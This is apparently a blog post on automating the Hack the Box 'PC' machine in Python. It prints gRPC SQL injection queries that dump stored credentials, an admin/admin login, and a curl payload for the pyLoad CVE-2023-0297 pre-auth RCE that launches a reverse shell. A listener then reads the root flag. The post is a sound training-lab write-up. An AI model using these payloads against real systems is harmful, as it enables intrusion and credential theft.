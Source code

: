 ```yaml
---
title: "Hack the Box — PC, but automated"
date: 2023-11-06T20:05:09-08:00
draft: false
toc: true
images:
tags:
  - htb
  - automation
---
```

PC is an easy Linux box that has a grpc service and a vulnerable version of an application running on it. While doing this box, I had gone to the forums for a hint, and I saw a comment that said something along the lines of “I wrote a script that can solve this box”. I found this quite intriguing and decided to write a script that could solve the box myself.

_Note 1: This is not a proper write-up of the PC box. There is already an official write-up by the creator of the box which is very thorough and explains all the details of the box. There are many unofficial writeups as well. There’s also ippsec’s video on his channel._

_Note 2: This script only automates the steps that need to be taken to get the flags. It does not automate the looking for the vulnerabilities part. After I completed the box, I automated the steps I took to get the flags._

The complete code for this script can be found on [Github](https://github.com/anuraagbaishya/htb-pc).

## Setup grpc
The box is running a grpc service on port 50051. Therefore, to interact with the service, we need a grpc client. I followed a [tutorial](https://grpc.io/docs/languages/python/basics/) on how to create a grpc client using thegrpcio-tools Python library. The first step was to define the service in a .proto file. My service definition is here. Once the service is defined grpcio-tools can generate the client code for you. You can use a command like this:
```bash
$ python -m grpc_tools.protoc -I../../protos --python_out=. --pyi_out=. --grpc_python_out=. SimpleApp.proto
```

For me, this generated 2 additional files, [`SimpleApp_pb2.py`](https://github.com/anuraagbaishya/htb-pc/blob/main/SimpleApp_pb2.py) and [`SimpleApp_pb2_grpc.py`](https://github.com/anuraagbaishya/htb-pc/blob/main/SimpleApp_pb2_grpc.py) . I will not explain what these files do here, since that itself is a lengthy topic of discussion. If you are curious, the tutorial link I added earlier has a lot of resources to understand grpc and how it works.

Once we have the required files generated, we can connect to the grpc service:
```python
def _setup_grpc(self):
    channel = grpc.insecure_channel(f"{self.host}:{self.grpc_port}")
    stub = pb2_grpc.SimpleAppStub(channel)

    return stub
```
Here `pb2_grpc` contains the client and server classes corresponding to protobuf-defined grpc services.

## SQL Injection in grpc
The grpc service exposes a `getInfoRequest` which takes an id parameter. It then uses the id to make an SQL query. The id parameter is vulnerable to SQL injection. We can exploit it by making a query like:

```python
query = "62 UNION SELECT name FROM sqlite_master where type='table'"
pb2.getInfoRequest(id=query) 
```

Here `pb2` is the protobuf client we will use to interact with the grpc service. The above request will get the tables from `sqlite_master`.


This does not work out of the box, however. It requires an admin token to be sent as metadata. We can obtain the token by sending a `LoginUserRequest`. The username/password is conveniently set to admin/admin.

```python
def _get_token(self):
    user = pb2.LoginUserRequest(username="admin", password="admin")
    _, call = self.stub.LoginUser.with_call(user)
    metadata = call.trailing_metadata()
    token = metadata[0].value[2:-1]

    return token
```

Once I had the token, I could make the `getInfoRequest` request and get the user details. To get the user details, I first got the table name, then the columns in the table, and finally queried all the columns of the table.

```python
def _get_users(self) -> dict:
    print("Getting users")

    query = "62 UNION SELECT name FROM sqlite_master where type='table'"
    table = self._sql_injection_request(query)

    query = f"62 UNION SELECT GROUP_CONCAT(name) FROM pragma_table_info('{table}')"
    cols = self._sql_injection_request(query)

    res = []
    for col in cols.split(","):
        query = f"62 UNION SELECT GROUP_CONCAT({col}) FROM {table}"
        r = self._sql_injection_request(query)
        res.append(r.split(","))

    usernames = res[0]
    passwords = res[1]

    users = []
    for i in range(len(usernames)):
        users.append({"username": usernames[i], "password": passwords[i]})

    print("Users found")
    print(json.dumps(users))

    return users
```

The `_sql_injection_request` function is defined as:

```python
def _sql_injection_request(self, query):
    metadata = (("token", self.token),)
    id_request = pb2.getInfoRequest(id=query)
    r = self.stub.getInfo.with_call(id_request, metadata=metadata)
    return r[0].message
```

## Getting user flag
The user list has a user `sau` , who has SSH access to the machine. The next step is to start an SSH session and read the user flag stored at `/home/sau/user.txt`. This is quite straightforward. I created a simple SSH Client using the `paramiko` library and executed `cat /home/sau/user.txt`:

```python
def exec_command(self, command):
    ssh_stdin, ssh_stdout, ssh_stderr = self.client.exec_command(command)
    return ssh_stdout.read().decode("utf-8")
```

## PyLoad CVE
PyLoad is an open-source download manager. PyLoad versions prior to 0.5.0b3.dev31 are vulnerable to pre-auth RCE (CVE-2023–0297). There are many available exploits for this vulnerability. You can read more about the vulnerability and the exploit [here](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad).

The vulnerability allows us to execute a payload like this:

```bash
curl -i -s -k -X $'POST' \
--data-binary
$'jk=pyimport%20os;os.system(\"bash%20/home/sau/shell.sh\");f=function%20f2()
{};&package=xxx&crypted=AAAA&&passwords=aaaa' \
$'http://localhost:8000/flash/addcrypted2'
```

Here, I am running a script called [`shell.sh`](https://github.com/anuraagbaishya/htb-pc/blob/main/shell.sh) which is just a bash reverse shell.

PyLoad on this box is not available publicly. It can only be accessed from within the box. The official write-up uses SSH tunneling to tunnel from the user’s machine to the box. I chose the alternative option of running the exploit from within the SSH session, using the same `exec_command` function I used to read the user flag.

I used SFTP to transfer the reverse shell to the box:

```python
def transfer_file_from_local(self):
    ftp_client = self.client.open_sftp()
    ftp_client.put("shell.sh", "/home/sau/shell.sh")
```

The last step is to start a reverse shell listener and then read the root flag from within the reverse shell session. For this, I created a simple [socket client](https://github.com/anuraagbaishya/htb-pc/blob/main/revsh.py) which listens for a connection and then performs `cat /root/root.txt`.

I ran both the exploitation script and the socket client as two separate processes using a shell script:

```bash
#! /bin/bash

python auto_exploit.py &
python revsh.py
```

It might (should) be possible to run the exploitation part and socket listener as separate threads of the same process. I tried for a bit, but it didn’t work and I just chose the easy way out.

Running the runner script, I got both the user and root flags:

![Flags](/flags.webp)


## Closing Thoughts
This experiment was a lot of fun. After completing this box, I pondered over what makes a box scriptable. I think the correct answer is — all boxes are scriptable if one is willing to persevere. The more practical questions what makes a box easy to script. I have come up with these criteria:

* Requires little to no UI interaction like clicking buttons, filing forms, etc that cannot be replicated using direct web / API calls. It might be possible to replicate these functionalities using selenium or similar — but that increases the complexity of the script.
* Related to the above — requires performing operations using some software running on one of the open ports or the machine. These might be web UIs or even CLI programs installed in the box.
* Has a lot of steps / requires running a lot of tools. The time required to create the script will be directly proportionate to the number of steps.

This was the first (and only) box I have tried to script. I have done a few other boxes after this one, but I did not spend time trying to script them because of one of the above reasons. As I complete more boxes, I will continue to assess if the box is easy to script. If yes, great! If not, it may have to do with one of the above reasons, or I might have some other new reasons.

That’s it from me. This is my 2023 contribution to my blog. I will not promise anything else here till a really long time has passed since this publication. I usually don’t work on technical things during my free time. Most (if not all) of the security work I do is by virtue of my employment. Therefore, there usually is not much for me to share.

Thanks for reading!
